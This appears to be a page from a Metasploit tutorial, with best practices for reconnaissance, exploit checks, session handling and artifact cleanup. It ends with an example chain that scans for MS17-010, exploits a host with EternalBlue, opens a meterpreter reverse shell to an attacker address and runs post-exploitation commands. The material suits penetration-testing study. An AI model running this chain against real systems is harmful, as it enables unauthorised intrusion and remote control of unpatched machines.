 ## Best Practices

### 1. Reconnaissance First
```bash
# Always start with reconnaissance
db_nmap -sS -sV -O target_range
use auxiliary/scanner/discovery/udp_sweep
```

### 2. Verify Exploits
```bash
# Check exploit reliability
info exploit_name
# Look for rank: excellent, great, good

# Test with check command
check
```

### 3. Session Management
```bash
# List active sessions
sessions -l

# Interact with session
sessions -i 1

# Background session
background

# Kill session
sessions -k 1
```

### 4. Cleanup
```bash
# Clean up artifacts
use post/multi/manage/system_session_cleanup
set SESSION 1
run
```

## Example Attack Scenario

```bash
# 1. Reconnaissance
db_nmap -sS -sV 192.168.1.100

# 2. Vulnerability scanning
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.1.100
run

# 3. Exploitation
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.10
exploit

# 4. Post-exploitation
sysinfo
getuid
```
